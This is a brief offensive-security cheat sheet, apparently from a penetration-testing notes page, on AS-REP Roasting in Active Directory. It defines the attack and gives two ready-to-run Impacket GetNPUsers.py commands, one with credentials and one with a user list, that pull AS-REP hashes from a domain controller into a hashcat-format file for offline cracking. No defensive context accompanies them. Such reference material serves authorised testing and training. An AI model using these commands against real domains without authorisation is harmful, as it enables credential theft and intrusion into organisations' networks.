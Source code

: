 **AS-REP Roasting** is an attack method used in Active Directory environments where an attacker targets user accounts that do not require pre-authentication. It involves requesting and then cracking the encrypted ticket-granting service response (AS-REP).

```bash
GetNPUsers.py domain.local/user:password -dc-ip x.x.x.x -outputfile asrep.hashcat
```

With a list of known users:

```bash
GetNPUsers.py -usersfile users.txt -dc-ip x.x.x.x domain.local/ -outputfile asrep.hashcat
```
